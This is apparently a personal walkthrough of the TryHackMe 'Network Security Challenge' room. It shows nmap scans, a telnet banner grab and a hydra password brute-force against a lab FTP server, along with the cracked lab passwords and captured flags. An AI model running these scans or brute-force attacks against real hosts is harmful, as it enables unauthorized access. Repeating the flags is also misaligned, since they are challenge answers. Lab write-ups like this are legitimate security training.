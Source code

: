 ```yaml
---
title: Network Secutiry Challenge
author: 0xskar
date: 2022-06-16 18:32:00 -0500
categories: [Lesson, Tutorial]
tags: [nmap, telnet, hydra, Enumeration, TryHackMe]
---
```


Practice the skills you have learned in the Network Security module.

[https://tryhackme.com/room/netsecchallenge](https://tryhackme.com/room/netsecchallenge)

* * *

## Task 1 - Introduction

Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can be solved using only ``nmap``, ``telnet``, and ``hydra``.

* * * 

## Task 2 - Challenge Questions 

##   Answer the questions below

**What is the highest port number being open less than 10,000?**

1. ``nmap -sC -sV -T 4 10.10.82.60 -p- -oN initial`` scan with nmap and save scan to "initial" for refrence.
2. There are 6 open ports but one is hidden, the last question is a clue?
3. Redoing nmap scan but with ``-sN`` and sudo
4. We can see port 8080

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

- inital scan shows port 10021

**How many TCP ports are open?**

- We see 5 open TCP ports and 

**What is the flag hidden in the HTTP server header?**

1. ``telnet 10.10.82.60 80``
2. ``GET / HTTP/1.1``
3. ``host: telnet``
4. hit return a few times to get flag: THM{web_server_25352}

**What is the flag hidden in the SSH server header?**

1. We got this flag using our initial Nmap scan: THM{946219583339}

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

- initial scan shows "vsftpd 3.0.3"

**We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP?**

1. add users eddit and quin to txt file
2. ``hydra -t 16 -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.82.60 -s 10021`` specifying port because not common
3. user eddie pass jordan - user quinn pass andrea
4. ``ftp quinn@10.10.82.60 -P 10021``
5. ``get ftp_flag.txt``
6. ``exit``
7. ``cat ftp_flag.txt`` THM{321452667098}

**Browsing to http://MACHINE_IP:8080 displays a small challenge that will give you a flag once you solve it. What is the flag?**

- we get the flag from running ``nmap -sN`` sening null bytes THM{f7443f99} 

* * * 
